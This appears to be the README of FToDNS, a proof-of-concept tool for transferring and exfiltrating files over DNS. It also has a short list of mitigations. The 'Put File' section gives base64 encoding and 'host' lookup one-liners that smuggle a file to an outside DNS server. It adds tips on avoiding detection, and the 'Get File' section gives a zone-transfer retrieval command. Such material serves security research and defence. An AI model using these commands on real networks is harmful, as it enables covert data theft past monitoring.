 ## FToDNS: File Transfer over Domain Name Service
Christopher Neitzert <chris@neitzert.com>

### What:
A proof of concept that utilizes the Domain Name Service protocol, loosely, as it was intended for data delivery and exfiltration across network boundaries.


### Why:
This primarily is an intellectual exercise relating to practical information security in a networked environment.

The use of DNS for data exfiltration or VPN has been a hacker trope for the four decades that DNS has existed. 
The recent introduction of [DNS over HTTPS](https://en.wikipedia.org/wiki/DNS_over_HTTPS) takes an already incendiary security issue and douses it with petroleum.

This PoC aims to be a few stray sparks near that issue. 

There have been several impliementations of this concept and this Proof of Concept is not unique. 
Although this implementation is not based on the previous PoCs, several interesting methods will be linked in the [Erratum.txt](https://github.com/neitzert/FToDNS/blob/master/Erratum.txt)

---

### How it works
This is assuming that any of this works, and a given that there are plenty of better ways to do it. 

There are two types of landscape a DNS server exists in, for the purposes of this PoC we will call them Direct and Recursive.

Additionally, there are two verbs in a basic file transfer; We will call them 'Put File' and 'Get file'.


#### Landscape:

##### Direct Client to Server
![DNS](/images/DNS_Generic.png)
* A typical DNS client queries a DNS server for a host or zone.
* It might traverse a firewall or two as it crosses the internet
* The DNS server responds to the DNS client with an answer or error


##### Client to Recursive Server to Authoritative Server
![DNS](/images/DNS_Recursion.png)
* A typical DNS client queries a DNS server for a host or zone.
* Local rules might require the DNS client use a local server.
* The Local Server likely does not have the zone, so it queries the Authoritative Server on behalf of the DNS client.
* The query might traverse a firewall or two as it crosses the internet
* The Authoritative Server responds with an answer or error to the Local Server.
* The Local Server then relays that information to the DNS client.


#### Verbs

#### Put File
![DNS](/images/FToDNS_PutFile.png)
* The user chooses a file and Base64 encodes the file with 56 Byte long lines
	* One consideration is a multiple encoding method to correct for out of order query-server-log issues.
		* ex: 
			* base64 -w56 $FILE | cat -n | base64 -w56 > file_to_be_put
	* Then for each 56 Byte long encoded line generated by encoded data the user simply performs a DNS lookup with that line to their DNS Server.
		* ex: 
			* host -6 -a -W60 $line.io 2001:db8:1:1:1:1:1:1 
		* Detection avoidance considerations should be taken around timing, encoding, destination servers, and host call.
	* Each query is logged by the destination DNS Server and easily extracted by the inverse method of it's encoding.
		* ex: 
			* cat $NAMED_LOGFILE | grep .io | grep cache | cut -f2 -d"("| cut -f1 -d"." | base64 -d > $DESIRED_FILE_OUTPUT



#### Get File
![DNS](/images/FToDNS_GetFile.png)
* The server operator chooses a file that they want to make available globally via DNS.
	* The file is base64 encoded and written into a DNS Zone file and served globally in DNS.
		* ex: 
			* See [ZoneMaker](https://github.com/neitzert/FToDNS/blob/master/ZoneMaker.sh) for details on this process.
	* The user who wishes to get the file then performs a zone transfer and extracts the file by the inverse method of it's encoding.
		* ex:  As shown in [ZoneGet] (https://github.com/neitzert/FToDNS/blob/master/ZoneGet.sh) 
			* host -t axfr $1 $2|grep $3 | sort -n| cut -f2 -d"-"| cut -f1 -d"."|/bin/base64 -d |/bin/base64 -d > $DESIRED_FILE_OUTPUT 


---


### Proof of Concept Criteria and Requirements
1. PoC Criteria
	1. Proof of concept must be limited to tools built into the OS plus Bind9 for DNS service.
	1. Some sort of TCP-IP network between client & server that permits DNS between Client and Server. 
	1. Proof of concept must be able to, via the DNS protocol, 
		1. Copy a file from a remote server to a local client across a network
		1. Copy a file on a local client to a remote server across a network

1. Client Requirements:
	1. Standard Linux Distribution with standard GNU Core utils
	1. Host(1) ISC's standard host utility.  
	1. Base64, grep, cut, sed, awk, general sh scripting

1. Server Requirements:
	1. Standard Linux Distribution with standard GNU Core utils
	1. ISC's Bind9 DNS server 
		1. Ability to write zone files
		1. Ability to read log files
		1. Ability to change named.conf to allow zone transfers.
		1. named.conf configuration changes TBD
	1. Base64, grep, cut, sed, awk, general sh scripting


1. Types of Test 
	1. Due to the complexity of the PoC, this will be broken down into multiple types of PoC
		1. - [x]Direct Client to Server
			1. - [x]Read file 
			1. - [x]Write file
		1. - [ ]Client to Recursive to Authoritative
			1. - [ ]Read file
			1. - [ ]Write file
		1. - [ ]Client via DoH to HTTPS/DNS server 
			1. - [ ]Read file
			1. - [ ]Write file


---

### How to Mitigate:
This specific Proof of Concept creates several issues with its issuance and this document would not be complete without a short discussion on mitigation.

1. Network
	1. Limit Talkers
	1. Record DNS 'meta data'
	1. 
	
1. DNS Server Architecture
	1. Restrict zone transfers 
	1. Disable recursive checks and retrievals.	
	
1. Fuzzing
	1. Timing and Frequency
	1. Query length
	1. Text Encoding
	1. 

---


## File Descriptions:

### Resolver.sh

A simple script to encode a file into a very large number of DNS host look up queries for later collection and reassembly on the upstream DNS server 


### ZoneGet.sh

Simple script to query a DNS server and decode the output of an entire DNS zone where each CNAME entry in the zone is a line fragment of a double base64 encoded file created by the script ZoneMaker.sh. 


### ZoneMaker.sh

Simple script to take a file and base64 encode it, write it into a DNS zone file for remote serving on a Bind9 DNS server.


---


 
## Disclaimers 
All standard disclaimers apply, no warranty, claims, or promises declared, made or implied.

For educational, research, and entertainment purposes only. 

Usability expires while you wait.

